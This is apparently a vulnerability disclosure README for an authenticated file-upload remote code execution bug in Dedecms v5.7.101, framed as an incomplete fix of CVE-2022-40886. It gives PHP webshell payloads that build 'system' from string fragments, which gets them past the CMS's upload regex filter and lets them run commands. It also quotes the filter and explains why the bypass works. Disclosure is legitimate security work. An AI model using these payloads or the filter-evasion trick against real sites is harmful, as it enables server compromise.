




# Dedecms-v5.7.101-RCE
## Vulnerability Description
Since CVE-2022-40886 is not fully fixed, Dedecms still has a file upload vulnerability, leading to RCE.

## Vulnerability to reproduce

Log in to the backend of the website.



Upload the file hhh.php, the content of the file is as follows:

```php
<?php $x='sys';$xx='tem';$xxx=$x.$xx;$y='di';$yy='r';$yyy=$y.$yy;$xxx($yyy) ?>
```


Visit `hhh.php`：



## Vulnerability Analysis

In `/dede/file_manage_control.php`, the content of the file we upload will first be checked by `uploadsafe.inc.php`.

In `CVE-2022-40886`, the POC uses `$_COOKIE` to bypass the `$cfg_disable_funs parameter` blacklist. It can be seen that in v5.7.101, `uploads/include/uploadsafe.inc.php` added the limit of `$_COOKIE`, and added some regular matching filtering.



Focus on the regular matching expression added by `uploadsafe.inc.php`.

```php
if(preg_match("#<\?(php|=)#i", " {$content}") == TRUE) {
    if(preg_match("#[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在木马！<pre>{$content}</pre>");
    }
    if(preg_match("#[@][$][_0-9a-z]+[\s]*[(][\s\S]*[)]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在木马！<pre>{$content}</pre>");
    }
    if(preg_match("#[`][\s\S]*[`]#i", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在后门！<pre>{$content}</pre>");
    }
}
```

Among them, there is the following regular expression, if the match is successful, the process will be terminated and returned `DedeCMS提示：当前上传的文件中存在木马`。

```php
[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]
```
This regular expression prevents a lot of malicious code, but it needs to meet the requirements ending with` ;`, and shell injection can still be performed through `<?php ?>`.
```php
<?php $x='sys';$xx='tem';$xxx=$x.$xx;$y='ca';$yy='lc';$yyy=$y.$yy;$xxx($yyy) ?>
```
